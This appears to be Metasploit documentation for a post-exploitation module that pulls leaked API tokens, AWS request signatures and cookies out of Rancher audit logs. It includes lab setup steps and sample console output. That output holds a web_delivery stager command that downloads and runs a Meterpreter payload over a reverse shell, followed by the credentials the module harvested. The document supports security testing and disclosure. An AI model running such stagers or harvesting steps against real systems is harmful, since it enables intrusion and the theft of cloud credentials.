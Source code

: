 ## Vulnerable Application

Rancher versions between 2.6.0-2.6.13, 2.7.0-2.7.9, 2.8.0-2.8.1 inclusive
contain a vulnerability where sensitive data is leaked into the audit logs.
Rancher Audit Logging is an opt-in feature, only deployments that have it
enabled and have AUDIT_LEVEL set to 1 or above are impacted by this issue.

Tested against rancher 2.6.0.

### Install

Run the following docker command: 
`docker run -d --restart=unless-stopped -p 80:80 -p 443:443 -e AUDIT_LEVEL=3 -v /var/log/rancher/auditlog:/var/log/auditlog --privileged rancher/rancher:v2.6.0`

You'll now need to grab the install key via `docker logs`: `docker logs <docker_id> 2>&1 | grep "Bootstrap Password:"`

Lets now add some data for the logs:

1. Click Cluster Management
1. Select Cloud Credentials:
  1. Click the hamburger in the top left corner
  1. Select Cluster Management
  1. Click Cloud Credentials, and Create
  1. Pick Digital Ocean
    1. Fill in random data, it doesn't have to validate and be a live account
    1. Click Create. It will fail, but the audit logs we need have been written
  1. Pick Amazon
    1. Fill in random data, it doesn't have to validate and be a live account
    1. Click Create. It will fail, but the audit logs we need have been written
1. Click your user icon in the top right corner
  1. Select Accounts & API Keys
    1. Click Create API Key
    1. Give it a name and click create. Write down these values
  1. Perform a request via curl (on the docker image is easiest) which will generate more logs (but ultimately fail): 
`curl -H "X-Api-Auth-Header: <your bearer token>" -H "X-Amz-Security-Token: FINDME" -k https://172.17.0.2/v3/clusters`

## Verification Steps

1. Install the application and generate data
1. Start msfconsole
1. Get a shell
1. Do: `use post/linux/gather/rancher_audit_log_leak`
1. Do: `set session [#]`
1. Do: `run`
1. You should get a table of leaky fields found

## Options

### LOGFILE

The log file to analyze. Defaults to `/var/log/auditlog/rancher-api-audit.log`

## Scenarios

### Rancher 2.6.0 on Docker

```
[*] Processing rancher_logs.rb for ERB directives.
resource (rancher_logs.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (rancher_logs.rb)> set target 7
target => 7
resource (rancher_logs.rb)> set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (rancher_logs.rb)> set lhost 172.18.0.1
lhost => 172.18.0.1
resource (rancher_logs.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 172.18.0.1:4444 
[*] Using URL: http://172.18.0.1:8080/zpJT4e2V
[*] Server started.
[*] Run the following command on the target machine:
wget -qO gmZmOwc0 --no-check-certificate http://172.18.0.1:8080/zpJT4e2V; chmod +x gmZmOwc0; ./gmZmOwc0& disown
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.17.0.2:34252) at 2024-03-13 16:51:26 +0000
```

```
resource (rancher_logs.rb)> use post/linux/gather/rancher_audit_log_leak
resource (rancher_logs.rb)> set session 1
session => 1
resource (rancher_logs.rb)> set verbose true
verbose => true
msf6 post(linux/gather/rancher_audit_log_leak) > 
msf6 post(linux/gather/rancher_audit_log_leak) > run

[+] Rancher log saved to: /root/.msf4/loot/20240313165133_default_172.17.0.2_rancher.api.log_616439.txt
[+] Found X-Api-Auth-Header token-p6nzp:zcpscwmzbx2kvfdffl8lqlqv5564s98225zn5ds67rtnw5m4hcjlqs
[+] Found X-Amz-Security-Token FINDME
[+] Found X-Api-Auth-Header Bearer aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[+] Found X-Api-Set-Cookie-Header: __cf_bm=2W30ytsdvsLv72Iok1yhwxxsb2vMTPSR7TBCwVZFSGA-1710342756-1.0.1.1-W82_TGzMA.9nV.Qan0XFdGijkdil8VjhuSHbCC85hD2XEsS9rEaR_IlX0X_hsDuDj52ULmlywjjTJZP5zkk503.D4IDGc30FExY2pUhDRyU; path=/; expires=Wed, 13-Mar-24 15:42:36 GMT; domain=.digitalocean.com; HttpOnly; Secure; SameSite=None
[+] Found X-Api-Auth-Header Bearer digital_ocean_access_token
[+] Found X-Api-Set-Cookie-Header: __cf_bm=MDIoCaX1Uv1po1JmVaiUvzljV4m9vovMhzjQBN36u2c-1710342849-1.0.1.1-GaceyvEmf5JRuEDxjuU.ByuyIEj6RtMkdN.QqbENHhCLLk.VLlSqn2kk6ykypIZqbpWgzQtOk6iamIROy456PtvgVL9PA3ZebG9CFh1y8IM; path=/; expires=Wed, 13-Mar-24 15:44:09 GMT; domain=.digitalocean.com; HttpOnly; Secure; SameSite=None
[+] Found X-Api-Auth-Header AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-content-sha256;x-amz-date;x-amz-user-agent, Signature=be70968f3e291c0dad80ea15daa220ab8e87d79b76f28e782319443a174aa626
[+] Found X-Api-Auth-Header AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-content-sha256;x-amz-date;x-amz-user-agent, Signature=32d930648433fbb8d4da9a26af23ec83ce0df0e9010e56da3b7ee2708cee0e75
[+] Found X-Api-Auth-Header AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-content-sha256;x-amz-date;x-amz-user-agent, Signature=6992fecba7ad5f33e0cf5ab5d86c4e7df8b332a74c861a5d3f05a65a5fbc9bed
[+] Leaked Information
==================

 Field                    Value                                                                                                                                                                       Location
 -----                    -----                                                                                                                                                                       --------
 Username                 admin                                                                                                                                                                       Requests
 X-Amz-Security-Token     FINDME                                                                                                                                                                      requestHeader
 X-Api-Auth-Header        token-p6nzp:zcpscwmzbx2kvfdffl8lqlqv5564s98225zn5ds67rtnw5m4hcjlqs                                                                                                          requestHeader
 X-Api-Auth-Header        Bearer aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa                                                                                                                       requestHeader
 X-Api-Auth-Header        Bearer digital_ocean_access_token                                                                                                                                           requestHeader
 X-Api-Auth-Header        AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-conten  requestHeader
                          t-sha256;x-amz-date;x-amz-user-agent, Signature=be70968f3e291c0dad80ea15daa220ab8e87d79b76f28e782319443a174aa626
 X-Api-Auth-Header        AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-conten  requestHeader
                          t-sha256;x-amz-date;x-amz-user-agent, Signature=32d930648433fbb8d4da9a26af23ec83ce0df0e9010e56da3b7ee2708cee0e75
 X-Api-Auth-Header        AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-conten  requestHeader
                          t-sha256;x-amz-date;x-amz-user-agent, Signature=6992fecba7ad5f33e0cf5ab5d86c4e7df8b332a74c861a5d3f05a65a5fbc9bed
 X-Api-Set-Cookie-Header  __cf_bm=2W30ytsdvsLv72Iok1yhwxxsb2vMTPSR7TBCwVZFSGA-1710342756-1.0.1.1-W82_TGzMA.9nV.Qan0XFdGijkdil8VjhuSHbCC85hD2XEsS9rEaR_IlX0X_hsDuDj52ULmlywjjTJZP5zkk503.D4IDGc30FExY  responseHeader
                          2pUhDRyU; path=/; expires=Wed, 13-Mar-24 15:42:36 GMT; domain=.digitalocean.com; HttpOnly; Secure; SameSite=None
 X-Api-Set-Cookie-Header  __cf_bm=MDIoCaX1Uv1po1JmVaiUvzljV4m9vovMhzjQBN36u2c-1710342849-1.0.1.1-GaceyvEmf5JRuEDxjuU.ByuyIEj6RtMkdN.QqbENHhCLLk.VLlSqn2kk6ykypIZqbpWgzQtOk6iamIROy456PtvgVL9PA3ZebG9  responseHeader
                          CFh1y8IM; path=/; expires=Wed, 13-Mar-24 15:44:09 GMT; domain=.digitalocean.com; HttpOnly; Secure; SameSite=None

[*] Post module execution completed
msf6 post(linux/gather/rancher_audit_log_leak) > 
```
